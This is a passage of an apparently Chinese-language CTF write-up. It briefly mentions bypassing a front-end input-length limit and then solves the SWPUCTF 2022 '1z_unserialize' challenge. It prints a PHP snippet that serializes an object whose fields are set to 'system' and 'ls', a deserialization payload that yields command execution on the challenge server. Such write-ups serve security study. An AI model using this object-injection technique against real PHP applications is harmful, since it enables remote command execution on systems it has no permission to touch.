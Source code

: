 这里前端限制了最大长度为10，改为11，输入12345678900（任意11位数）



# [SWPUCTF 2022 新生赛]1z_unserialize

![image-20250808075040780](./NSSCTF-4.assets/image-20250808075040780.png)

关键是a的值，也就是lt和lly

构造

```
<?php

class lyh{
    public $url = 'NSSCTF.com';
    public $lt;
    public $lly;
}

$w=new lyh();
$w->lt='system';
$w->lly='ls';
$w=serialize($w);
echo $w;

?>
```
